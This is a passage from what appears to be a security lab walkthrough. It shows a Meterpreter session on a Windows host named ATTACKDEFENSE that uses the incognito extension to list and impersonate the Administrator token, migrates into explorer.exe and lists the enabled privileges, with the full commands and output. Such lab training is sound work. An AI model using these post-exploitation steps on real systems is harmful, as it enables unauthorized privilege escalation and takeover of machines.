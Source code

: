 

**Load incognito plugin and check all available tokens.**

```bash
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available


```

we have the administrator account access token which will provide us with elevated privileges  



 **impersonate administrator account access token**

```bash
meterpreter > impersonate_token "ATTACKDEFENSE\Administrator"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[+] Delegation token available
[+] Successfully impersonated user ATTACKDEFENSE\Administrator

meterpreter > getuid
Server username: ATTACKDEFENSE\Administrator

meterpreter > getprivs 
[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
meterpreter > pgrep explorer
3460

meterpreter > migrate 3460
[*] Migrating from 3756 to 3460...
[*] Migration completed successfully.

meterpreter > sysinfo
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
```